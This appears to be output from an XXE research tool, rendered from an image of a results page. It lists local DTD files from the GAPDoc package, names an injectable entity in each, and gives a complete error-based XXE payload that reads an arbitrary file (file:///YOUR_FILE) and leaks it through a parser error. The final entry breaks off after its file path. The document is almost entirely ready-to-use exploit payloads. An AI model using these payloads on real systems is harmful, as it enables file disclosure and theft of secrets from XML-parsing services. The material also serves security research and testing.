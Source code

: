  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd`

**Injectable entity:** `withMURL`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/bibxmlext.dtd">

    <!ENTITY % withMURL '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/gapdoc.dtd`

**Injectable entity:** `InnerText`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/gapdoc.dtd">

    <!ENTITY % InnerText 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/gapdoc/gapdoc.dtd`
